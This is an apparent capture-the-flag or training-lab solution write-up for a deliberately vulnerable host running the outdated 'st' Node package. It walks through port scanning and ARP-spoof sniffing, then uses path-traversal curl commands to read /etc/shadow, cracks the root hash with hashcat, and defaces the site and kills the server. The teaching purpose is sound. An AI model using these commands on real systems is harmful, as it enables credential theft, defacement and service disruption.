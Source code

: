 # Unsafe Solution

*19 December 2017*

Assumes the domain name is `static.twlinux.io`.

## Reconnaissance

### nmap port scanning

```bash
nmap -O -F -sS static.twlinux.io
```

- DNS port 53 (dnsmasq)
- SSH port 22 (sshd)
- TELNET port 23 (telnetd)
- FTP port 21 (vsftpd)

https://github.com/jennydaman/twlinux/wiki/nmap#port-scan

### Packet sniffing

Use an ARP spoof attack coupled with dsniff to intercept the normal telnet user password.

In the normal user's directory, there are two files: `~/hint` and `~/.hint2`. `~/.hint2` is a hidden file, which is revealed by the command `ls -a`. Retrieve these files via any open network service.

### White-box testing

Inspect `package.json`.

```json
"dependencies": {
  "colors": "^1.1.2",
  "github-markdown-css": "^2.9.0",
  "ip": "^1.1.5",
  "st": "0.2.4"
}
```

Notice that `st@0.2.4` is missing the `^` carrot symbol, which indicates that the outdated version 0.2.4 was explicitly stated as a dependency.

### nikto

*Credits to Basaam Malik for discovering this solution.*

This is a [black-box](https://en.wikipedia.org/wiki/Black-box_testing) solution.

[nikto](https://github.com/sullo/nikto/blob/master/README.md) is a web server scanner.

```bash
nikto -h static.twlinux.io
```

### Conclusion

**`st@0.2.4` is vulnerable to [directory traversal](https://www.owasp.org/index.php/Path_Traversal).**

https://www.npmjs.com/package/st

### System analysis

The file `/etc/login.defs` describes configurations relevant to user authentication and login.

```bash
# less is used to preview files
curl http://static.twlinux.io/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/login.defs | less
```

This is the result:

```
#
# /etc/login.defs - Configuration control definitions for the login package.
#
<output omitted>
#
# Hash shadow passwords with SHA512.
#
ENCRYPT_METHOD  SHA512
```

Alternatively, you could simply use `grep` to filter the output:

```bash
curl http://static.twlinux.io/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/login.defs | grep -f ENCRYPT_METHOD
```

Modern Linux systems use the SHA-512 + salt algorithm for password storage.

## Exploit

```bash

# retrieve the root password hash
curl http://static.twlinux.io/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow | grep -f root > root_passwd.hash

# execute a dictionary attack
hashcat -m 1800 -a 0 -w 3 --status --status-timer=1 -o clear_password.out root_passwd.hash /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

Use the retrieved password to open a remote session through `ssh` (or `telnet`).

## Attack Objective

```bash
# leave a friendly message using a "here document"
cat > /var/www/html/blog/index.html << EOF
<html>
<body>
<h1>Don't forget to update your node.js modules!</h1>
"My gran could do better! And she's dead!" ~Gordon Ramsay
</body>
</html>
EOF

# kill the server
killall node
```

## Report

### Lessons Learned

- Close unnecessary ports.
- Keep your software up to date.

As a black hat hacker, you could upload malware to the site. Or you could modify the server logic.
